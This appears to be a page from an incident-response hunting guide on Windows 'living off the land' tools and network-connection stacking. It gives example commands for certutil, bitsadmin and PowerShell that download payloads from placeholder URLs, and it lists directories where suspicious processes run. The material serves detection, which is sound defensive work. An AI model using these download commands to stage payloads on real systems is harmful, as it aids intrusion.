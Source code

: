 ##### Living off the Land Tools

Investigators should search for all LOL tools that are capable of downloading a
payload or uploading data to a remote location.

##### certutil.exe

· Description: Allows you to download a payload.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Example: *certutil -ping [URL]*

Example: *certutil -urlcache -split -f [URL] [output-file]*
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### bitsadmin.exe

Description: Allows you to download a payload.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Example: bitsadmin /transfer [job-name] /download /priority normal [URL-to-payload] [output-path]
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### powershell.exe

Description: Allows you to download a payload.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Example: powershell -c "(New-Object System.Net.WebClient).DownloadString('https://google.com')"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

#### Stacking

At a minimum, investigators should stack the “Path” and “Remote Address” fields
of the PortView or Get-Netstat collections and review the stacked data for
evidence of execution of malware, utilities, scripts and programs with unusual
names and running out of non-standard directories.

Any network connections entries that are flagged by the investigator as
suspicious should be triaged for signs of malicious activity.

##### What to Look For

###### Anomalies

Investigators should review the stacked data and review the results for
statistical outliers (executables that exist/existed on only a small percentage
of endpoints in the enterprise or that exist on a large amount of endpoints.)

Investigators should pay special attention to network connections entries that
are associated with processes running from suspicious directories such as:

· %SystemRoot%

· %UserProfile%

· %WinDir%\\Temp

· %SystemRoot%\\Temp
